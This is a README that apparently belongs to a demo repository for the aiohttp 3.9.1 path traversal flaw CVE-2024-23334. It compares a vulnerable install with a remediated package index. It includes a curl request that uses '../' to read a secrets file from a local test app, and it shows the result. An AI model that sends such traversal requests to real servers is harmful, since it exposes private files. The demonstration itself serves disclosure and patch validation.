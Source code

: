 # Demonstrate path traversal with Python CVE-2024-23334
## run Python app that uses aiohttp v3.9.1 and allows for directory traversal
* RUN on Linux!
* if you do not already have a virtual environment for Python: `python -m venv venv`
* some convenience scripts `show-vuln.sh` `show-fix.sh` and `clean.sh` have been included
* make sure you have a pip.conf in your venv dir that lists: `https://aaron.miller%40chainguard.dev:****@chainguard.jfrog.io/artifactory/api/pypi/python-all-remediated/simple` as it's [global] index-url

## Fast way
Run from a Linux machine:
`show-vuln.sh`
`show-fix.sh`
`clean.sh`

## To go step-by-step:
* start your local venv, `source venv/bin/activate`
* install `pip install aiohttp==3.9.1`
* start the app `python3 app.py`
* show `curl --path-as-is http://127.0.0.1:8080/static/../private/secrets.txt`
will show 404
* now uninstall `pip uninstall -y -r <(pip freeze)` and `pip cache purge`
* move the pip.conf to pip.conf.bak
* install again and run the app.py
* it'll show the secret
